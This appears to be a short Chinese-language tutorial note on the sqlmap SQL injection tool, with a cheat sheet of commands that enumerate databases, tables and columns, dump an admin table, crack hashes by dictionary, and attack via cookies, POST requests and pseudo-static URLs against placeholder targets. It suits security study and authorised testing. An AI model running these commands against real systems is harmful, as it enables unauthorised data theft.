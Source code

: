 # SQLMap应用
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 简介
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SQLmap是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL的SQL注入漏洞，目前支持的数据库是MySQL，Oracle，PostgreSQL，Microsoft  SQL  Server，Microsoft Acess，IBM DB2，SQLLite，Firebird，Sybase和SAP MaxDB……SQLmap采用几种独特的SQL注入技术，分别是盲推理SQL注入，UNION查询SQL注入，对查询和盲注。其广泛的功能和选项包括数据库指纹，枚举，数据库提取，访问目标文件系统，并在获取完全操作权限时实行任意命令
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 详解 
![](/assets/WX20190306-160348@2x.png)
![](/assets/WX20190306-161610@2x.png)
![](/assets/WX20190306-162251@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 流程 (目标注入地址尽量用双引号引起来)
![](/assets/AF1C4C8C3124CC854FBE3962B95BFA39.png)


```python
    URL 形如 "http://172.16.12.2/inject.php?id=1"
    qlmap.py -u "URL" --users                --users: 查看当前用户
    sqlmap.py -u "URL" --dbs                --dbs: 列举数据库
    sqlmap.py -u "URL" --current-db         --current-db: 当前数据库
    sqlmap.py -u "URL" -D dbname  --tables              dbname:指定数据库名称 --tables:列出某数据库上的所有表
    sqlmap.py -u "URL" -D dbname -T tablename --columns -D    --columns:列出指定表上的所有列
    sqlmap.py -u "URL" -D sqlinject  -T admin -C 字段 --dump  --dump:导出列里面的字段
    然后回车默认通过字典来破解，选择1利用自带的字典暴力破解
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 其他总结

```python
    1.ACCESS注入:sqlmap.py -u www.xxx.asp?id=7" --tables
    2.cookie注入: sqlmap.py -u www.xxx.asp.asp --cookie "id=31" --table --level 2
    3.post注入: sqlmap.py -r 抓包数据.txt --dbs
    4.伪静态注入: sqlmap.py -u www.xxx.com/xxx*.html -D 数据库 --tables
```









 







